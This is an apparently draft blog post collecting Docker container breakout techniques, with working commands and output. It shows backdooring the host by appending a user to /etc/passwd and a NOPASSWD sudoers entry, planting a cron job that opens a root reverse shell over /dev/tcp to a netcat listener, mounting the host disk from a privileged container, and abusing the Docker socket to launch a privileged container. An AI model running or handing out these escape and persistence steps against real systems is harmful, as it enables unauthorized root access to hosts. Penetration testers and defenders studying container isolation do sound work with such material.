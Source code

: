 ```yaml
---
title: "Container Breakouts Techniques"
date: 2020-07-11T13:09:54+02:00
draft: true
---
```


If you are bored of searching for the most-known container breakout techniques, here is a collection. This post addresses abuse of shared root filesystem (2 ways), privileged container (3 ways) and access to the Docker Socket (1 way). 

## Intro

The motivation of this post is to collect container breakouts. I was considering writing a huge post about all the stuff you must know to break out of container. But, if I would do so, it will take ages to write, es well to read and at the end you would just scroll direct to the PoC code snippets. So I dropped that idea and will just link to additional readings.

It may the case that not all breakouts that you have in mind are listed. Do not hesitate and contact me so that I can add them. Over the time, I may extend them as well.

## Attacks

The attacks refer to each other, cause the root-cause why an attack is possible may differ, but the final break out may be the same. The examples are related to docker. The transfer to other container technologies, e.g., LXC may be slightly different and maybe there will be a follow-up post regarding this ;)

### Shared Host root-directory

If you got access to a container that shares directories with the host, that is not direct a problem. But, if the container has access to the host root-filesystem as user root (pre-assumed that there is no [AppArmor](https://man.cx/apparmor(7)) or [SELinux](https://man7.org/linux/man-pages/man8/selinux.8.html) in place) you got the jack pot! We have multiple ways to approach the underlying host.

Let’s assume that the host root directory is accessible at `/hostfs`

#### SSH to user

To escalate to the host, we **create a user** in the file `/hostfs/etc/passwd` and **add** the user **to** the **sudoer’s**. After the user is prepared, we connect via **SSH** to the host. Okay, it is a kind of flaky, because certain packages must have been installed and services running, you get the idea :)

```
# cat /hostfs/etc/passwd | grep 1000
user:x:1000:1001:user:/home/user:/usr/bin/zsh

# openssl passwd -6 -salt xyz test
$6$xyz$rjarwc/BNZWcH6B31aAXWo1942.i7rCX5AT/oxALL5gCznYVGKh6nycQVZiHDVbnbu0BsQyPfBgqYveKcCgOE0

# echo 'foo:$6$xyz$rjarwc/BNZWcH6B31aAXWo1942.i7rCX5AT/oxALL5gCznYVGKh6nycQVZiHDVbnbu0BsQyPfBgqYveKcCgOE0:1000:1001:user:/home/user:/usr/bin/zsh' | tee -a /hostfs/etc/passwd

# echo "user ALL=(ALL) NOPASSWD: ALL" >> /hostfs/etc/sudoers.d/0-user

# ip r 
default via 172.17.0.1 dev eth0 
172.17.0.0/16 dev eth0 proto kernel scope link src 172.17.0.2

# ssh -l foo 127.0.0.1
foo@127.0.0.1's password: 
Last login: Sat Jul 11 12:10:10 2020 from 127.0.0.1
arch [~]% sudo -i
[arch ~]# 
```

We have assumed that there is a SSH daemon running on the host, the service is not hardened and the `sudo` package was installed. Well, you could exchange the sudo-step by creating another user with `uid=0(root)` to get rid of that step, but anyway ;)

#### Cronjob

Another approach would be to write a **cronjob** file that is executed every minute and starts a **reverse shell** as user `root`.

```
# ip a
[…]
6: eth0@if7: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP group default 
    link/ether 02:42:ac:11:00:02 brd ff:ff:ff:ff:ff:ff link-netnsid 0
    inet 172.17.0.2/16 brd 172.17.255.255 scope global eth0
[…]

# echo "* * * * * root bash -i >& /dev/tcp/172.17.0.2/1337 0>&1" | tee /hostfs/etc/cron.d/1revers
# nc -lkvp 1337
nc -lvkp 1337
listening on [any] 1337 ...
172.17.0.1: inverse host lookup failed: Unknown host
connect to [172.17.0.2] from (UNKNOWN) [172.17.0.1] 58536
bash: cannot set terminal process group (3138): Inappropriate ioctl for device
bash: no job control in this shell
[arch ~]# id -a
uid=0(root) gid=0(root) groups=0(root)
```

In this second showcase, we assumed that a cron service was running on the host. That is more or less the default on a lot of systems. 


### Privileged Container
If you start a container with Docker and you add the flag `--privileged` that means to the process in the container can act as root user on the host. The containerization would have the advantage of self-containing software shipment, but **no** real **security boundaries to** the **kernel**.

There are multiple ways to escape from a privileged container. Let us have a start.

#### Capabilities

##### `CAP_SYS_Module` – Load Kernel Module 

https://www.cyberark.com/resources/threat-research-blog/how-i-hacked-play-with-docker-and-remotely-ran-code-on-the-host 

##### `CAP_SYS_ADMIN` – cgroup release on notfy
TODO … have to read :D

#### Host Devices

I prefer to use the host devices to escape from a privileged container. A quick directory listing of the **devices** in the container shows that we have **access to all** of them:

```
root@0462216e684b:~# ls -l /dev/
total 0
crw-r--r-- 1 root root  10, 235 Jul 11 09:20 autofs

[...]
brw-rw---- 1 root  994   8,   0 Jul 11 09:20 sda
brw-rw---- 1 root  994   8,   1 Jul 11 09:20 sda1
[...]
# mount /dev/sda1 /mnt/
user@732c0d1ca2db:~$ ls -l /mnt/
total 132
lrwxrwxrwx   1 root root     7 Nov 19  2019 bin -> usr/bin
drwxr-xr-x   4 root root  4096 May 13 13:29 boot
[…]
drwxr-xr-x 104 root root 12288 Jul 11 10:09 etc
drwxr-xr-x   4 root root  4096 Jun 30 14:47 home
[…]
drwxr-x---   9 root root  4096 Jul 11 10:09 root
[…]
lrwxrwxrwx   1 root root     7 Nov 19  2019 sbin -> usr/bin
[…]
drwxr-xr-x  10 root root  4096 May 26 14:37 usr
[…]
# mkdir /hostfs
# mount /dev/sda1 /hostfs
```
As you can see, the **hard drive** itself is listed, which can be **mounted**. After mounting the device, it is possible to interact as root user with the device and backdoor the system.

Getting access via the hard drive is already described in the previous section [Shared Host root-directory](#shared-host-root-directory).


### Docker Socket

You know, every time you have **access to the Docker Socket** (default location: `/var/run/docker.sock`) it **means** that you are **root on the host**. Some containerized application may need access to the socket, e.g., for observation or local system management.

You have read correctly, local system management. As soon you have access to the socket, you can manage the local system. Okay, first at all, you can manage containers and these containers can afterwards manage the system. 

So if you want to escalate from the container to the system, you can **interact** with the **Docker Socket manually or **just simple **install Docker** in the container. Okay, and what’s the next step? Exactly, you had it already in your mind, start a privileged container. 

```
# apt update && apt install -y docker.io
# docker run --rm --privileged -it nodyd/ana bash
user@b89e2cfbd699:~$
```

With the access to a privileged container, you can **perform** the **steps as already explained** in previous section [Privileged Container](#privileged-container).

